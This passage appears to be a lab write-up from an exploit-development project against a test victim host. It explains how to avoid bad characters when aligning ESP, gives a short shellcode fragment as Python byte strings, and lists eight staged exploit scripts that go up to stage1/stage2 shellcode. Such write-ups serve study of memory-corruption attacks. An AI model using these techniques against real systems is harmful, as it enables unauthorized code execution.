Unfortunately, this code contains 0xD3, a bad character. To address this issue, we can split 0x13d3 to two numbers which do not contain any bad characters and add twice. 0x13d3 equals 0x097f plus 0x0a54, therefore I have the code as below:
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x7f\x09' +   # ADD AX,0x097F
    B'\x66\x05\x54\x0a' +   # ADD AX,0x0a54
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```
The following graphs present how ESP changes in my case (from 0x0101EC2C to 0x0101FFFF):




 -->
## Test Environment Configuration
- Local host: 10.0.2.8
- Victim host: 10.0.2.7

## Test code
1. [exploit1.py](SourceCode/exploit1.py) : Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
2. [exploit2.py](SourceCode/exploit2.py) : Replacing the bytes at the offset discovered by exploit1.py with the address of *POP EBX, POP EBP, RETN*.
3. [exploit3.py](SourceCode/exploit3.py) : Replacing the bytes at the offset discovered by exploit1.py with the address of return instructions which don't contain bad characters.
3. [exploit4.py](SourceCode/exploit4.py) : Adding conditional jump which does not contains bad characters.
5. [exploit5.py](SourceCode/exploit5.py) : Adding ESP alignment
6. [exploit6.py](SourceCode/exploit6.py) : Adding short jump and ESP alignment for the long jump
6. [exploit7.py](SourceCode/exploit7.py) : Adding long jump
6. [exploit8.py](SourceCode/exploit8.py) : Adding stage1 and stage2 shell code

## References

[1] https://x3tb3t.github.io/2018/03/29/mona/

[2] https://crawl3r.github.io/2020-02-06/manuel_alphanumeric_shellcode_encoder

[3] https://riptutorial.com/x86/example/20470/conditional-jumps

[4] https://web.archive.org/web/20190218144432/https://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/ 

[5] https://www.ibm.com/support/pages/just-faqs-about-little-endian
